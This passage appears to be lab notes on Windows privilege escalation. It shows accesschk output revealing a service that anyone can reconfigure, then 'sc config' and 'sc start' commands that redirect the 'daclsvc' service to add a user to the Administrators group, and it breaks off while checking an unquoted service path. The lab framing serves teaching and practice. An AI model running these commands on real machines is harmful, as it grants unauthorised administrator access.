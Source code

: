Modifying the service configuration to our malicious binary gives us privilege access.

**NOTE : daclsvc - when aprocess tries to access a securable object the system checks the list to check whether to grant permission or not**

## Checking for Vuln

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

```
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

## Exploit

1. sc config daclsvc binpath= "net localgroup administartors user /add"

2. Start the service. `sc start daclsvc`

# Unquoted Path Service

## Checking for vuln

1. sc qc unquotedsvc 

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common
\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
